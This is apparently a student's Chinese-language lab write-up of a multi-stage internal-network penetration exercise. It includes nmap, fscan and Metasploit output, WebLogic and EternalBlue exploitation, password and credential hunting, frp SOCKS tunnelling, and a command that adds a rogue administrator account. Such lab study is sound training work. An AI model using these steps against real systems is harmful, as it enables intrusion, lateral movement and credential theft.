[TOC]

[TOC]

# day05实战  【linux版本】|| 提交WP解题步骤【课程报告】writeup

# 2021-08-08-内网渗透WP-场景网络拓扑 【linux版本】

# 1、Shiro 反序列化

外网口是一个经典的shiro 登陆口
1）直接上工具尝试反序列化
2）把shell 弹到公网
3）上ew 进行内网穿透

##### 
sudo  nmap -sT  10.10.135.25 
PORT    STATE SERVICE
25/tcp  open  smtp
110/tcp open  pop3

##### ShiroExploit.jar 

Shiro_rce

E:\tools\工具清单\day04\Shiro_rce>java -jar &  -u  10.10.135.25:25
http://10.10.135.25

ShiroExploit.jar 输入正确的 HTTP请求

>ShiroExploit.jar 图形化界面的，不能在kali终端用！【】

-----------------------------------------------

kali： 10.2.1.88/32,  PC:  10.2.0.213/23

>E:\tools\工具清单\day04\fscan.exe -h 10.10.135.25  【nmap有穿透，fscan没有穿透功能，只能拷贝到该机器以后才能用???】

-----------------------------------------------
#1-SQL弱口令
ms17-010
#2-cve-2017-7494 研发机
 -pipename ---  search pipename   【msf ???】 
#3-struct 2 
图中13.203 为WEB

其它还有：命令执行 ???  主程序复制 --写公钥 ???

# 2、mysql
经过端口扫描发现存在10.10.135.66 存在mysql 数据库
尝试udf 提权并且，成功

# 3、研发pc 机
内网扫描，发现10.10.135.35 开放445 端口，经过侦查发现是台linux 机器，所有使用
cve-2017-7494 进行攻击
发现可以攻击成功
发现存在双网卡，再上一个ew 进行二次穿透

# 4、redis
扫描内网发现172.16.15.187 存在redis 服务
尝试主从复制，拿下服务器

# 5、mysql
扫描内网发现存在两台mysql 服务器（172.16.15.111、172.16.15.115）
尝试udf 提权成功

# 6、个人pc
扫描内网又发现一台linux 的samba 服务器（172.16.15.145），看来这个内网很喜欢用
linux 当samba 呀
通过之前的cve-2017-7494 拿下

# 7、tomcat 服务器
接着扫描，发现一个tomcat 服务器
尝试一下弱口令tomcat/tomcat 进入后台
上传war 包拿下服务器
发现该服务器存在双网卡，继续上传ew 进行穿透

# 8、mysql
发现第三个网络又存在一个mysql
尝试udf 提权成功

# 9、Postgres
经过扫描，发现一台postgres 服务器
尝试弱口令连接，并执行命令

# 课程感受

课堂上跟不上的话，课后无从复习---讲义里搜不到工具相关内容
如果能有课堂录屏视频，会方便很多！

# 网络拓扑 【win版本】

拓扑图中8个靶场
网络中还存在一个192.168.23.231 ??? 究竟是哪台？【】

任务：3个靶场-分组  【渗透测试+内网渗透】
10.2.2.9
10.2.2.14
10.2.2.17
靶机因系统原因重启了一下分别为:
10.2.2.21
10.2.2.31
10.2.2.39

三人一个IP:  10.2.2.9 
需要自行发现目标机的密码！并登陆反向

### 分组，用CS协作  ???





# 获取10.2.2.21密码+登陆+上传工具

【】主要步骤总结：

> kali中，用 nmap(发现开通的端口)  

 701（Weblogic） - msf > weblogic

远程桌面登录10.2.2.9（Win7）
> --上传fscan
> --查看ipconfig, 
> 开启管理员权限的cmd.exe
> fscan.exe -h 192.168.23.0/24

### 方案及对比

##### msf中 反向木马工具！ 
msfvenom

#### 浏览器 IP:7001  【】???  vs. msf中搜索的weblogic
WEBlogic：
弱口令探测 密码9位  1, 123
漏洞
工具： weblogic scan --- 发现所有存在的漏洞！
发现双网段 -->

---------------------------------






--------------------------------

## 上传工具到10.2.2.21中的方式

##### 准备在 win下上马，探测内网：
--两种方式，

######  1）寻找上传的路径： dir .s index.*

######  2）win下有个文件下载工具

拍照 certutil -
开一个http服务   【】
http文件夹下
用 > python -m simpleHTTPServer 8083   【】
可以从浏览器下载了！

## nmap扫描端口

──(kali㉿kali)-[~]
└─$  sudo nmap -sS 10.2.2.21
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 17:40 EDT
Nmap scan report for 10.2.2.21
Host is up (0.0051s latency).
Not shown: 997 filtered ports
**PORT      STATE SERVICE
3389/tcp  open  ms-wbt-server
7001/tcp  open  afs3-callback
49154/tcp open  unknown**

Nmap done: 1 IP address (1 host up) scanned in 17.77 seconds

【】Rhosts为肉鸡，LHost为kali
模块类型：  cmd/unix/reverse_bash  【】





## 密码破解原理

### 密码收集—mimikatz  + msf  ???  搜 【】
#### 浏览器密码工具
电脑密码： hashdump等 【】

chrome://settings/passwords
火狐：about:logins

win下： dir /b /s config.*, *.properties,【JAVA 数据库中间件，含有密码】 *password*   

findstr /si password *.*   【】文件名被修改时，搜不到文件名，搜文件内容！

findstr /si properties *.*  
如果搜到内容太多，可以把关键词组合起来 【我搜到的内容很少！乱码！看不到明文文本】

【】实例管理 攻防平台 ??? 

10.20.24.200:2333  【】 ???

##### 数据库中常见：
 jdbc:mysql:10.2.1.219:data
username=
password=

搜上述IP!

## msf + weblogic + hashdump 获取10.2.2.21的密码!

###### msf 选择 2019  excellent yes 【利用weblogic模块 701攻入目标机器10.2.2.9，可以执行shell，可以hashdump -- 】

search weblogic【】!!! --7001

use 10 【2019年 excellent yes】

weblogic 命令行下载  

>show target : 查看是否可以unix win方式 
set target  1   【】
最好用反向payload！

返回 meterpreter session 2 

## 获取10.2.2.21所在的第一层内网信息

扫描内网主机10.2.2.9 / 后来改为.21--及其端口、密码
的工具：1、fscan     2、弱口令工具

第三方工具 02-fscan.exe，github.com, 专用于内网渗透【】go语言，并发量很高，自身作为服务器??? 扫描很快
工具直接上传待扫描的机器上

https://github.com/shadow1ng/fscan

### 上传文件到10.2.2.21的两种思路方法：
#### 1、meterpreter中upload 【】
#### 2、创建新用户+远程登录
--msf中运行shell, 
--创建一个用户！【】
显示乱码可以修改一个30000的数字 ??? 
chmod
--以新用户身份，远程桌面登录10.2.2.9
--上传fscan
--查看ipconfig, 
开启管理员权限的cmd.exe
fs.exe -h 192.168.23.0/24
【探测好后，要熟悉各种端口的弱点，及对应的工具!!!】

### fscan及其扫描结果
* C:\Users\Administrator>dir

 驱动器 C 中的卷没有标签。
 卷的序列号是 EC2C-92C6

 C:\Users\Administrator 的目录

2020/08/12  10:53    <DIR>          .
2020/08/12  10:53    <DIR>          ..
2020/08/12  10:53    <DIR>          Contacts
2021/08/06  03:57    <DIR>          Desktop
2020/08/12  10:53    <DIR>          Documents
2020/08/12  10:53    <DIR>          Downloads
2020/08/12  10:53    <DIR>          Favorites
2020/08/12  10:53    <DIR>          Links
2020/08/12  10:53    <DIR>          Musicf
2020/08/12  10:53    <DIR>          Pictures
2020/08/12  10:53    <DIR>          Saved Games
2020/08/12  10:53    <DIR>          Searches
2020/08/12  10:53    <DIR>          Videos
               0 个文件              0 字节
              13 个目录 48,668,364,800 可用字节

C:\Users\Administrator>cd Desktop
C:\Users\Administrator\Desktop>fscan.exe -h 192.168.23.0/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.6.3
start infoscan
(icmp) Target '192.168.23.1' is alive
(icmp) Target '192.168.23.135' is alive
(icmp) Target '192.168.23.66' is alive
(icmp) Target '192.168.23.12' is alive
(icmp) Target '192.168.23.88' is alive
icmp alive hosts len is: 5
192.168.23.66:8080 open
192.168.23.135:7001 open
192.168.23.135:3306 open
192.168.23.88:1433 open
192.168.23.12:445 open
192.168.23.135:445 open
192.168.23.12:139 open
192.168.23.135:139 open
192.168.23.12:135 open
192.168.23.135:135 open
192.168.23.66:22 open
192.168.23.1:22 open
alive ports len is: 12
start vulscan
NetInfo:
[*]192.168.23.135
   [->]WIN-H1VEP8O3329
   [->]192.168.23.135
   [->]10.2.2.21
[+] 192.168.23.12       MS17-010        (Windows 7 Enterprise 7600)
NetInfo:
[*]192.168.23.12
   [->]admin-PC
   [->]192.168.23.12
   [->]172.16.15.12
[*] 192.168.23.135       WORKGROUP\WIN-H1VEP8O3329   Windows Server 2008 R2 Stan
dard 7600
[+] 192.168.23.135      MS17-010        (Windows Server 2008 R2 Standard 7600)
[+] mssql:192.168.23.88:1433:sa 123456
[*] 192.168.23.12        WORKGROUP\ADMIN-PC          Windows 7 Enterprise 7600
[+] mysql:192.168.23.135:3306:root 123qwe!@#
[*] WebTitle:http://192.168.23.135:7001 code:404 len:1164   title:Error 404--Not
 Found
[+] InfoScan:http://192.168.23.135:7001 [weblogic]
[+] http://192.168.23.135:7001 poc-yaml-weblogic-cve-2020-14750
已完成 13/14 [-] ssh 192.168.23.66:22 root qwe123 ssh: handshake failed: ssh: un
able to authenticate, attempted methods [none password], no supported methods re
main

### 扫描弱口令：
弱口令工具文件夹复制到10.2.2.21上，
弱口令工具使用后收获不大，不如fscan有效果：

 攻击字典  【】"!"   ???



#### PC上检查弱口令：
得到结果：
> 2021/8/6 3:59:54----192.168.23.88-----SQLServer----sa----123456----10.50.1600----成功！

#### 10.2.2.21上检查弱口令
得到结果：
> 2021/8/6 4:32:01----192.168.23.135 port 3389 开放！
> 2021/8/6 4:32:01----192.168.23.66 port 22 开放！
> 2021/8/6 4:32:01----192.168.23.12 port 3389 开放！
> 2021/8/6 4:32:01----192.168.23.135 port 445 开放！
> 2021/8/6 4:32:01----192.168.23.88 port 3389 开放！
> 2021/8/6 4:32:01----192.168.23.12 port 445 开放！
> 2021/8/6 4:32:01----192.168.23.135 port 3306 开放！

#### 思路：
现在已经获取对10.2.2.21的完全控制，下面
1）kali和10.2.2.21之间建立反向代理
2）kali的msf中设置全局代理，就可以直接攻击内网192网段！

# 穿透进入第一层内网192网段

##  配置frp代理服务 > msf 挂代理！ 

正向代理 和 反向代理时， C-S分别的位置与拓扑 ??? 【】

### 10.2.0.213 frps配置

frps.ini:
最关键的，bind_port要和frpc.ini中一致


└─$ ./frps frps.ini                                                【格式错误，仍然成功启动，但端口不对?? 正确格式：./frps -c frps.ini    】                                                     127 ⨯
2021/08/05 19:42:38 [I] [root.go:116] frps uses command line arguments for config
2021/08/05 19:42:38 [I] [service.go:190] frps tcp listen on 0.0.0.0:7000
2021/08/05 19:42:38 [I] [root.go:217] frps started successfully

──(kali㉿kali)-[~]
└─$ cd Desktop                                                                                                          127 ⨯
                                                                                                                              
┌──(kali㉿kali)-[~/Desktop]
└─$ ls
cobaltstrike3  dirsearch       frps      GitHack  OneForAll                   subDomainsBrute  xray
code.desktop   ew_for_linux64  frps.ini  java     shirodemo-1.0-SNAPSHOT.jar  svnExploit
                                                                                                                              
┌──(kali㉿kali)-[~/Desktop]
└─$ type frps.ini
frps.ini not found         【??? 明明看到在Desktop下，为什么】
┌──(kali㉿kali)-[~/Desktop]
└─$ vim ./frps.ini

──(kali㉿kali)-[~/Desktop]
└─$ ./frps -c  frps.ini                                                                                      127 ⨯
2021/08/05 20:48:11 [I] [root.go:108] frps uses config file: frps.ini
2021/08/05 20:48:11 [I] [service.go:190] frps tcp listen on 0.0.0.0:7001
2021/08/05 20:48:11 [I] [service.go:289] Dashboard listen on 0.0.0.0:8000
2021/08/05 20:48:11 [I] [root.go:217] frps started successfully

### 10.2.2.21 frpc配置

C:\Users\Administrator\Desktop>type frpc.ini
[common]
server_addr = 10.2.0.213   【kali的外网IP】
server_port = 7001     【】代理端口
token = 12345678

[http_proxyx]
type = tcp
remote_port = 1888    【流量端口！对应kali的内网IP ???】
plugin = socks5

 C:\Users\Administrator\Desktop>frpc -c frpc.ini
> 2021/08/06 08:55:26 [I] [service.go:290] [229ef0f453dd7379] login to server succ
> ess, get run id [229ef0f453dd7379], server udp port [0]
> 2021/08/06 08:55:26 [I] [proxy_manager.go:144] [229ef0f453dd7379] proxy added: [
> http_proxyx]
> 2021/08/06 08:55:27 [I] [control.go:180] [229ef0f453dd7379] [http_proxyx] start
> proxy success

>---------------------------------
>  frpc: win版本  服务器填写47.-— 章老师演示时，47对应实验中的183.X网络，这种配置方法，实际上是正向代理 ???

>---------------------------------

##  msf 挂代理！ 【】

reverse allow true 开关 【】???
setg ??? 【】
 
setg Proxies socks4:xxx.xxx.xxx.xxx:44803 
kali本地启动metasploit，挂上代理，就可以对内网进行各种探测收集。

msf6 > setg Proxies socks5: 10.2.0.213 : 1888   #让msf所有模块的流量都通过此代理走。(setg全局设置)
Proxies => socks5: 10.2.0.213 : 1888 #让msf所有模块的流量都通过此代理走。(setg全局设置)
msf6 > setg ReverseAllowProxy true #允许反向代理，通过socks反弹shell，建立双向通道。(探测可以不设置
ReverseAllowProxy => true #允许反向代理，通过socks反弹shell，建立双向通道。(探测可以不设置

------------------------------------------------------------------

## 从kali用msf攻击主机 win7_weak / 192.168.23.12 /172:

win7-weak利用 ssh弱口令 ???  8080 
  PC1--3389弱口令爆破
有3个口令   ???
 ms17-010模块

思路：
**内网192有445端口**
【】与2.21的不同，与kali没有共同网段，无法直接用kali上的msf ???

2.21虽然有完全权限，但不是linux系统，没有msf工具 ???
 
没有3389，也没有密码，不能远程登录！

#### 192网段有445端口

auxiliary/scanner/smb/smb_ms17_010是永恒之蓝扫描模块，
exploit/windows/smb/ms17_010_eternalblue是永恒之蓝攻击代码

### 利用ms17_010开启3389端口 ???
【】exploit类别可以尝试添加管理员账号????!!!!

https://cloud.tencent.com/developer/article/1595615

msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMBws Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corrup
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corrup+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMBws Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 1
msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.23.12
rhosts => 192.168.23.12
msf6 auxiliary(scanner/smb/smb_ms17_010) > set threads 100
threads => 100
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

#### 添加账号  ???  
-----------------------------------  
msf6 auxiliary(scanner/smb/smb_ms17_010) > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp   【】
msf6 exploit(windows/smb/ms17_010_eternalblue) > set threads 100
threads => 100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.23.12
rhosts => 192.168.23.12
msf6 exploit(windows/smb/ms17_010_eternalblue) > set threads 100
threads => 100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/exec    【???】
payload => windows/x64/exec
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net user NewAdmin SuperDuperPass1 /add  【】
cmd => net user NewAdmin SuperDuperPass1 /add   【】
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
